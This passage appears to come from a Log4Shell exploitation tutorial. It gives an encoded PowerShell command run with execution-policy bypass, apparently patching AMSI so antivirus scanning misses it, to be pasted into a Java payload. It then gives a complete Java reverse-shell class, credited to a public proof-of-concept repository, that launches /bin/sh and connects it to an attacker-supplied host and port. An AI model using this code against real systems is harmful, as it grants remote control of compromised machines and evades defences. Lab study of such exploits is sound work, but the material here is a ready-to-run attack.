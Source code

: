 Th output should look something like this:
```
powershell.exe -exec bypass -enc IwBSAGEAcwB0AGEALQBtAG8AdQBzAGUAcwAgAEEAbQBzAGkALQBTAGMAYQBuAC0AQgB1AGYAZgBlAHIAIABwAGEAdABjAGgAIABcAG4ADQAKACQAaQBxAGEAZQBmACAAPQAgAEAAIgANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0AOwANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0...
```
- Copy this into the java file for the rePowershell string, set that as the command to be executed, then recompile the code.

### Reverse Shell on Ubuntu Machine or Docker Instance

Our code will look a bit different. Rather than executing a command to create the reverse shell, we can do it with java code.

```
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
public class Log4jShell {
    public Log4jShell() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
```
- This comes from: https://github.com/kozmer/log4j-shell-poc
